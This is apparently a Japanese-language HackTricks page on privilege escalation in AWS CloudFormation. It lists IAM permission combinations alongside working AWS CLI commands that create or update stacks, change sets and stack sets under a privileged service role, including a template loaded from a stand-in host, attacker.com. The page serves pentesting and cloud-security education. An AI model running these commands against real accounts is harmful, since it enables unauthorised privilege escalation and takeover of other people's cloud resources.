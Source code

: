 # AWS - Cloudformation Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## cloudformation

cloudformationについての詳細は以下をチェックしてください:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

これらの権限を持つ攻撃者は、カスタムテンプレートを使用して**CloudFormationスタック**を作成し、そのテンプレートを自分のサーバーにホストすることで、指定されたロールの権限の下でアクションを**実行する**ことによって**権限を昇格**することができます。
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
以下のページには、追加の権限 **`cloudformation:DescribeStacks`** を持つ**悪用例**があります：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在的な影響：** 指定されたcloudformationサービスロールへのPrivesc。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、既存のcloudformationスタックを**悪用して更新し**、前のシナリオと同様に権限を昇格させることができます：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `UpdateStack` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響：** 指定された cloudformation サービスロールへの権限昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っていても **`iam:PassRole` がない場合**、使用中のスタックを**更新し**、既に添付されている **IAM ロールを悪用**することができます。悪用の例については前のセクションを確認してください（更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `UpdateStack` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響：** 既に添付されている cloudformation サービスロールへの権限昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

ロールを渡す権限と ChangeSet を**作成および実行する権限**を持つ攻撃者は、CreateStack や UpdateStack と同様に、**新しい cloudformation スタックを作成/更新し cloudformation サービスロールを悪用**することができます。

以下の悪用は、スタックを作成するために **ChangeSet 権限**を使用する[**CreateStack の**](./#iam-passrole-cloudformation-createstack) **変種**です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `ChangeSet` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響：** cloudformation サービスロールへの権限昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と似ていますが、**IAM ロール**を渡すことなく、既にアタッチされているロールを**悪用する**ことができます。パラメータを変更するだけです：
```
--change-set-type UPDATE
```
**潜在的な影響:** 既にアタッチされているcloudformationサービスロールへのPrivesc。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用して、任意のcloudformationロールを悪用するためにStackSetsを作成/更新する可能性があります。

**潜在的な影響:** cloudformationサービスロールへのPrivesc。

### `cloudformation:UpdateStackSet`

攻撃者はpassRole権限なしでこの権限を悪用して、アタッチされたcloudformationロールを悪用するためにStackSetsを更新する可能性があります。

**潜在的な影響:** アタッチされたcloudformationロールへのPrivesc。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で私に**フォローしてください。**
* **HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有してください。**

</details>
